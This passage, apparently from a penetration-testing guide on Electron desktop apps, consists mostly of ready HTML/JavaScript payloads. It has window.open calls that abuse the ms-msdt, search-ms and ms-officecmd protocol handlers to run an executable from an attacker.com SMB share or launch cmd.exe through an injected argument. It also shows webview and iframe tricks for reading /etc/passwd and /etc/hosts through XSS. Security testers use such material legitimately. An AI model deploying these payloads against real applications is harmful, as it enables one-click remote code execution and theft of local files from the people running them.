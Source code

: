 ```html
<script>
window.open("ms-msdt:id%20PCWDiagnostic%20%2Fmoreoptions%20false%20%2Fskip%20true%20%2Fparam%20IT_BrowseForFile%3D%22%5Cattacker.comsmb_sharemalicious_executable.exe%22%20%2Fparam%20IT_SelectProgram%3D%22NotListed%22%20%2Fparam%20IT_AutoTroubleshoot%3D%22ts_AUTO%22")
</script>


<script>
window.open("search-ms:query=malicious_executable.exe&crumb=location:%5C%[5Cattacker.com](<http://5cattacker.com/>)%5Csmb_share%5Ctools&displayname=Important%20update")
</script>


<script>
window.open("ms-officecmd:%7B%22id%22:3,%22LocalProviders.LaunchOfficeAppForResult%22:%7B%22details%22:%7B%22appId%22:5,%22name%22:%22Teams%22,%22discovered%22:%7B%22command%22:%22teams.exe%22,%22uri%22:%22msteams%22%7D%7D,%22filename%22:%22a:/b/%2520--disable-gpu-sandbox%2520--gpu-launcher=%22C:%5CWindows%5CSystem32%5Ccmd%2520/c%2520ping%252016843009%2520&&%2520%22%22%7D%7D")
</script>
```

For more info about this examples check [https://shabarkin.medium.com/1-click-rce-in-electron-applications-79b52e1fe8b8](https://shabarkin.medium.com/1-click-rce-in-electron-applications-79b52e1fe8b8) and [https://benjamin-altpeter.de/shell-openexternal-dangers/](https://benjamin-altpeter.de/shell-openexternal-dangers/)

## Read Internal Files: XSS + contextIsolation

If `contextIsolation` set to false you can try to use \<webview> (similar to \<iframe> but can load local files) to read local files and exfiltrate them: using something like **\<webview src=”file:///etc/passwd”>\</webview>:**

![](<../../../.gitbook/assets/1 u1jdRYuWAEVwJmf\_F2ttJg.png>)

Another way to **read an internal file** from this [**writeup**](https://bugcrowd.com/disclosures/f7ce8504-0152-483b-bbf3-fb9b759f9f89/critical-local-file-read-in-electron-desktop-app):

```html
<br><BR><BR><BR>
<h1>pwn<br>
<iframe onload=j() src="/etc/hosts">xssxsxxsxs</iframe>
<script type="text/javascript">
    function j(){alert('pwned contents of /etc/hosts :\n\n '+frames[0].document.body.innerText)}
</script>
```

## **RCE: XSS + Old Chromium**

If the **chromium** used by the application is **old** and there are **known** **vulnerabilities** on it, it might be possible to to **exploit it and obtain RCE through a XSS**.\
You can see an example in this **writeup**: [https://blog.electrovolt.io/posts/discord-rce/](https://blog.electrovolt.io/posts/discord-rce/)
